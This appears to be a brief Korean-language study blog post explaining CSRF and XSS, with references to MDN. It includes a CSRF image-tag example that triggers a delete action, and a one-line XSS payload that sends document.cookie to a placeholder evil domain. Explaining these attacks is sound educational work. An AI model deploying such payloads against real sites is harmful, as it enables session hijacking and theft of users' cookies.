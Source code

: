 ```yaml
---
layout: post
title:  "Web Secure - Web Security"
date:   2021-05-29
last_modified_at: 2021-05-29
categories: [Web Secure]
tags: [Web Secure]
---
```


<br/>

### CSRF

신뢰할 수 있는 사용자를 가장하여 웹사이트에 원치 않는 명령을 보내는 공격.

예를 들어, 다른 곳으로 이동한다고 되어있는 링크 뒤의 URL에 악성 매개 변수를 포함하여 이를 수행

<img src="https://www.example.com/index.php?action=delete&id=123">

<br/>

### XSS

쿠키는 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용된다.

쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있다.

(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

<br/>

출처

[https://developer.mozilla.org/en-US/docs/Glossary/CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF)
[https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)

